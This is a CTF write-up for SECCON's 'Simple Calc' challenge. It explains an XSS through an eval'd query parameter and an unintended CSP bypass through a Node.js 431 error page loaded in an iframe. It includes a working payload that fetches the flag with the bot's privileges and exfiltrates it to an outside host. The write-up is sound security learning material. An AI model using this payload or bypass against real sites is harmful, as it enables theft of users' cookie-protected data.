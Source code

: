 ```yaml
---
title: "[Simply Calc] - SECCON Quals"
tags:
  - CTF
  - Write-up
  - csp-bypass
  - client-side
  - service-worker
categories:
  - CTF
  - Write Up
---
```

![[Screenshot 2024-01-19 at 23.06.45.png]]
# Prologue
SECCON CTF is International yearly competition. The finals will take into Japan. 

![[simple-calc.tar.gz]]
# Write Up
## TL;DR Solution
### Un-intended

The un-intended version of this challenge is the player by creating a iframe with very long url and cause `431` error. The default of that error page in nodejs has a CSP-less, causing player able to bypass the intended CSP. 
### Intended

TODO

## Detailed Explanation

### Un-intended

We were given the full source code for this challenge.
![[Screenshot 2024-01-19 at 23.23.33.png]]

As we can see in the `./challenge/src/static/js/index.js`, player able to control the query string of `expr`, and immediately `eval`-ed by the app. 
```js
// ./challenge/src/static/js/index.js
const params = new URLSearchParams(location.search);
const result = eval(params.get('expr'));
document.getElementById('result').innerText = result.toString();
```

By using `/?expr=alert(document.origin)` and we got a free-xss
![[Screenshot 2024-01-19 at 23.29.30.png]]

But the problem arise when we attempt to access the `/flag`.
```js
// ./challenge/src/index.js
// 8< -- Snip -- >8
app.get('/flag', (req, res) => {
  if (req.cookies.token !== ADMIN_TOKEN || !req.get('X-FLAG')) {
    return res.send('No flag for you!');
  }
  return res.send(FLAG);
});
// 8< -- Snip -- >8
```

As we can see, the CSP is very strict. The challenge CSP has `default-src` and the value is only at `http://localhost:3000/js/index.js`. So, every resources request we make outside that csp will be restricted.
![[Screenshot 2024-01-19 at 23.43.34.png]]

Luckily, In nodejs, the default page for error `431` has CSP-less.
![[Screenshot 2024-01-19 at 23.19.18.png]]

The idea is, we make an iframe with very-very long url to trigger the `413` error. And after that, we will execute JS inside the iframe context.

```js
_=document.createElement('iframe');
_.src=`http://localhost:3000/js/index.js?${"A".repeat(99999)}`;
document.body.appendChild(_);
// give a time to DOM to finish the iframe load
setTimeout(function(){
    _.contentWindow.fetch('/flag', {mode:"same-origin",headers: {"X-FLAG":"nice"}}).then((r)=>r.text()).then((r)=>{location=`http://host.docker.internal:1234/?${r}`});
}, 1000);
```

Send to the bot and we will able to get the flag
![[Screenshot 2024-01-20 at 00.09.21.png]]

![[Screenshot 2024-01-20 at 00.10.07.png]]
### Intended

TODO


# Epilogue